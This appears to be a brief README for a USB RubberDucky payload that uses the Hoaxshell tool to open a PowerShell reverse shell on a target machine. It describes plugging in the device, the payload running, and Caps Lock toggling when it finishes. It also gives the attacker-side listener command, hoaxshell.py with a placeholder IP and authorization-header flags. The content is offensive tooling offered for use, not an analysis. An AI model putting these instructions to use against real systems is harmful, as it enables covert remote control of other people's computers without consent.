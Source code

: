 Hoaxshell with usb RubberDucky:
-------------------------------------------

Powershell reverse shell with Authorization ID using Hoaxshell,after inserting the USB RubberDucky wait a few seconds for the payload to load and execute, once its done the Capslook will turn ON/OFF on target

on the attacker machine use the -g to remember the Authorization id
./hoaxshell.py -s X.X.X.X -r -g -H "Authorization"


*Credits for the original payload goes to t3l3machus/hoaxshell*
https://github.com/t3l3machus/hoaxshell

